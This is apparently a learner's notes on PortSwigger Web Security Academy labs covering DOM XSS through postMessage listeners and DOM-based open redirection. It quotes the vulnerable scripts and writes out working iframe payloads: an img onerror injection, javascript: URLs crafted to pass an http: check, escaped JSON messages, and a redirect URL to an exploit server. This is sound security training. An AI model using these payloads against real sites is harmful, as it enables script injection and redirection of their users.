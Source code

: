 
# DOM-based vulnerabilities (general)
https://portswigger.net/web-security/dom-based

material:

Controlling the web message source:
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

what is window.postmessage():
https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage



# Controlling the web message source (3 labs)
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

<!-- DOM XSS using web messages -->
https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/

hint:
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">


1. look for messages listners / innerHTML object - find in response to home (GET / HTTP/1.1):
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>

2. lets load the hinted code with labs url and img>tag based onerror event handler:
<iframe src="https://0a85009c04059966c0d325d100d6002c.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>','*')">

avoid apos char at: src='x' and onerror='print()'. they break the payload here



# DUDE!


<!-- Lab: DOM XSS using web messages and a JavaScript URL -->
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url

look for vulnarble JS functions by finding script>tag in responses:
find:
    <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>


so payload must start with 'http:' or 'https:' to be executed. lets try to pass arbitary url with hashed payload:

possible payloads:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()<!--http:','*')">

<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">

learned: use javascript: pseudo protocol in urls
https://brutelogic.com.br/blog/alternative-javascript-pseudo-protocol/


<!-- failed payload:
http:foo.bar#<script>print()</script>
loaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net" onload="this.contentWindow.postMessage('<script>print()</script>//https:http:','*')">

http:foo.bar#<img src=1 onerror=print(1)>
urlencoded:
http%3afoo.bar%23<img+src%3d1+onerror%3dprint(1)>
uploaded to iframe:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/#<img+src%3d1+onerror%3dprint(1)>','*')">

or maybe just put payload before URL:
<img src=1 onerror=print(1)>;<!--https:>

uploaded into payload:
<iframe src="https://0aab0039049cb659c0c402b200f800de.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print(1)>;<!--https:>','*')">

 -->


# DUDE!



<!-- Lab: DOM XSS using web messages and JSON.parse -->
https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse


look for vulnarble script> tags at proxie - find:
    <script>
        window.addEventListener('message', function(e) {
            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
            document.body.appendChild(iframe);
            try {
                d = JSON.parse(e.data);
            } catch(e) {
                return;
            }
            switch(d.type) {
                case "page-load":
                    ACMEplayer.element.scrollIntoView();
                    break;
                case "load-channel":
                    ACMEplayer.element.src = d.url;
                    break;
                case "player-height-changed":
                    ACMEplayer.element.style.width = d.width + "px";
                    ACMEplayer.element.style.height = d.height + "px";
                    break;
            }
        }, false);
    </script>

3 posiible actions: scroll, load and change style. lets try load as a possible vector.
jason:
{"type":"load-channel", "data":"javascript:print()//"}

<iframe src="https://0a2500af039e943bc0f65f0c0025000f.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>

what i learned:
d.url == field name is url (not "data" you dummy)
escape the " in the jason to avoid breaking the outer iframe shell

# DUDE!


# DOM-based open redirection (1 lab)
https://portswigger.net/web-security/dom-based/open-redirection

<!-- Lab: DOM-based open redirection -->
https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection


look for keyword url in response - find in post pages (GET /post?postId=1 HTTP/1.1):
    <div class="is-linkback">
        <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
    </div>

portswigger solution:
https://your-lab-id.web-security-academy.net/post?postId=4&url=https://your-exploit-server-id.web-security-academy.net/

payload:
https://0ad300bc03e07eacc1b32b24000900f0.web-security-academy.net/post?postId=1&url=https://exploit-0ab1006e03af7ee6c1892b8c011f001f.web-security-academy.net/exploit

(of course in the exploit page needs to be a badass maliciouse code)

